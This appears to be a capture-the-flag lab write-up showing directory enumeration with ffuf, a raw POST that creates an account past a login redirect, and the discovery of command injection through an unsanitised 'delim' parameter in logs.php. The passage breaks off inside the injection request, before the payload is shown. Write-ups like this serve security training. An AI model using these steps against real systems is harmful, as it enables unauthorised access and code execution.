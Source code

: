 ## Web

The website is a simple authentication form. We launch `ffuf` against it and
found a few pages.


    :::text
    └─$ ./ffuf -w /usr/share/dirb/wordlists/common.txt -u  http://10.129.193.153/FUZZ -mc 200 -e .php
    <SNIP>
    config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
    favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
    footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
    header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
    login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
    nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
    :: Progress: [9228/9228] :: Job [1/1] :: 2567 req/sec :: Duration: [0:00:03] :: Errors: 0 ::


Looking at `nav.php` we found the `accounts.php` page with an automatic redirection to the login page
we look at the HTML and send the post request required to create an account
using Burp. We can then login as our user on the application


    :::text
    POST /accounts.php HTTP/1.1
    Host: 10.129.193.153
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 51
    Connection: close
    Cookie: PHPSESSID=uu672fe9ecq5640am2fgsekhbk
    Upgrade-Insecure-Requests: 1

    username=toto1&password=12345&confirm=12345&submit=


We can download the `siteBackup` file on the server.
The `logs.php` file seems to be called when we want to get the log data via the management menu.
We can see that the POST parameter `delim` is not sanitize and use directly in an `exec` statement.
We can use that to run code on the box. We run a simple python HTTP server (`python3 -m http.server`)
and using Burp repeater put the following payload in the `delim` parameter:

    :::text
    POST /logs.php HTTP/1.1
    Host: 10.129.193.153
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 35
    Origin: http://10.129.193.153
    Connection: close
    Referer: http://10.129.193.153/file_logs.php
    Cookie: PHPSESSID=uu672fe9ecq5640am2fgsekhbk
    Upgrade-Insecure-Requests: 1
